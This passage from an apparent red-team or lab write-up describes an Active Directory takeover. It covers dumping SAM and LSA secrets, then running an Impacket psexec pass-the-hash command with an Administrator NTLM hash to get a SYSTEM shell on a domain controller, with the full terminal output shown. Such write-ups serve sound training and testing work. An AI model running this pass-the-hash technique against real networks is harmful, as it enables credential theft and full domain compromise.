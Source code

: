 <p class="indent-paragraph">
  Upon execution, the tool dumps the contents of the Security Account Manager (SAM) database and LSA secrets, including the NTLM hash of the <code>Administrator account</code> in the parent domain.
</p>

### 🎯 SYSTEM Shell on Domain Controller

<p class="indent-paragraph">
  With SYSTEM-level shell on the Domain Controller (dc01), complete control over the parent domain environment was achieved. From here, full Active Directory compromise is possible—creating backdoor accounts, extracting additional secrets, or deploying persistent agents. This level of access represents the pinnacle of the engagement, validating the end-to-end Red Team objective: identify and exploit vulnerabilities to demonstrate the impact of an AD takeover.
</p>

```
~$ proxychains /root/.local/bin/psexec.py -debug 'warfare/Administrator@dc01.warfare.corp' -hashes aad3b435b51404eeaad3b435b51404ee:a2f7b77b62cd97161e18be2ffcfdfd60

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] Impacket Library Installation Path: /root/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket
[+] StringBinding ncacn_np:dc01.warfare.corp[\pipe\svcctl]
[*] Requesting shares on dc01.warfare.corp.....
[*] Found writable share ADMIN$
[*] Uploading file FGxzltgq.exe
[*] Opening SVCManager on dc01.warfare.corp.....
[*] Creating service NLai on dc01.warfare.corp.....
[*] Starting service NLai.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
dc01

C:\Windows\system32> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.98.2
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.98.1
```

</div>